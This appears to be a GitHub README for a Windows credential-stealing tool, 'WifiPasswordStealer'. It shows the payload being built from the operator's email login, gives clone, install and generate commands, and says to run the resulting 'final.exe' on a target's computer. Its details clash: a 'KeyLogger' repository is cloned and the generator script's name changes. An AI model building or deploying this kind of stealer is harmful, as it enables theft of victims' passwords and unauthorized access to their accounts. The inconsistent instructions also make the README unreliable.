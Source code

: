 # WifiPasswordStealer
This script steals all saved passwords from a **windows** computer.


```
PS C:\Users\win7\Downloads\WifiPasswordStealer> python .\setup.py


░██████╗████████╗███████╗░█████╗░██╗░░░░░███████╗██████╗░░░░███████╗██╗░░██╗███████╗
██╔════╝╚══██╔══╝██╔════╝██╔══██╗██║░░░░░██╔════╝██╔══██╗░░░██╔════╝╚██╗██╔╝██╔════╝
╚█████╗░░░░██║░░░█████╗░░███████║██║░░░░░█████╗░░██████╔╝░░░█████╗░░░╚███╔╝░█████╗░░
░╚═══██╗░░░██║░░░██╔══╝░░██╔══██║██║░░░░░██╔══╝░░██╔══██╗░░░██╔══╝░░░██╔██╗░██╔══╝░░
██████╔╝░░░██║░░░███████╗██║░░██║███████╗███████╗██║░░██║██╗███████╗██╔╝╚██╗███████╗
╚═════╝░░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚══════╝╚══════╝╚═╝░░╚═╝╚═╝╚══════╝╚═╝░░╚═╝╚══════╝


RUN THIS ON WINDOWS ONLY!

Enter your email >  mymail@mail.com
Enter your password >  mymailpass

Creating file....

Compiling executable...
```

# Running

> Install requirements:

* Install python3 from https://python.org and git from https://git-scm.com.
* Clone the repository
```bash
git clone https://github.com/compromyse/KeyLogger
```
* Install python requirements
```bash
python -m pip install -r requirements.txt
```

> Generate payload:

```bash
python RUNTHIS.py
```

Then run the generated executable(`final.exe`) in the target's computer.